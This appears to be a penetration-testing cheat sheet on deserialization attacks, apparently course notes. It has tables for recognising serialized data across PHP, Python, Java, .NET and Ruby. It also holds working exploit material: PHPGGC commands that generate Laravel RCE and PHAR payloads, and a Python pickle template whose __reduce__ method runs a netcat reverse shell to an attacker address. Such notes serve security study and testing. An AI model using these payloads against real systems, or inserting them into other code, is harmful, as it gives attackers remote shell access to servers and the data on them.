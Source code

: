 # Deserialization Attack

# Identifying the use of Serialization

## White-Box

| Function             | Language                     |
|----------------------|------------------------------|
| `unserialize()`      | PHP                          |
| `pickle.loads()`     | Python (Pickle)              |
| `jsonpickle.loads()` | Python (JSONPickle)          |
| `yaml.load()`        | Python (PyYAML, ruamel.yaml) |
| `readObject()`       | Java                         |
| `Deserialize()`      | C#/.NET                      |
| `Marshal.load()`     | Ruby                         |


## Black Box

| Bytes                                                                      | Language                           |
|----------------------------------------------------------------------------|------------------------------------|
| `a:4:{i:0;s:4:"Test";i:1;s:4:"Data";i:2;a:1:{i:0;i:4;}i:3;s:7:"ACADEMY";}` | PHP                                |
| `(lp0\nS'Test'\np1\naS'Data'\np2\na(lp3\nI4\naaS'ACADEMY'\np4\na.`         | Python 2.x (Pickle Protocol 0)     |
| `80 01` (Hex)                                                              | Python 2.x (Pickle Protocol 1)     |
| `80 02` (Hex)                                                              | Python 2.3+ (Pickle Protocol 2)    |
| `80 03` (Hex)                                                              | Python 3.8+ (Pickle Protocol 4)    |
| `80 04 95` (Hex)                                                           | Python 3.x (Pickle Protocol 5)     |
| `["Test", "Data", [4], "ACADEMY"]`                                         | Python 2.7 / 3.6+ (JSONPickle      |
| `- Test\n- Data\n- - 4\n- ACADEMY\n`                                       | Python 3.6+ (PyYAML / ruamel.yaml) |
| `AC ED 00 05 73 72` (Hex), `rO0ABXNy` (Base64)                             | Java                               |
| `00 01 00 00 00 ff ff ff ff` (Hex), `AAEAAAD/////` (Base64)                | C#/.NET                            |
| `04 08` (Hex)                                                              | Ruby                               |

# Exploiting PHP Deserialization

## PHPGGC

```bash
# List out available gadget chains for a specific framework:
phpggc -l Laravel

# Generate an RCE payload using a specific gadget chain:
phpggc Laravel/RCE9 system 'nc -nv <ATTACKER_IP> 9999 -e /bin/bash' -b

# Generate a payload to exploit a PHAR deserialization vulnerability:
phpggc -p phar Laravel/RCE9 system 'nc -nv <ATTACKER_IP> 9999 -e /bin/bash' -o exploit.phar
```

# Exploiting Python Deserialization

```python
# Template for Pickle RCE exploit:

import pickle
import base64
import os

class RCE:
	def __reduce__(self):
		return os.system, ("nc -nv 1.2.3.4 5555 -e /bin/bash",)

print(base64.b64encode(pickle.dumps(RCE())).decode())
```
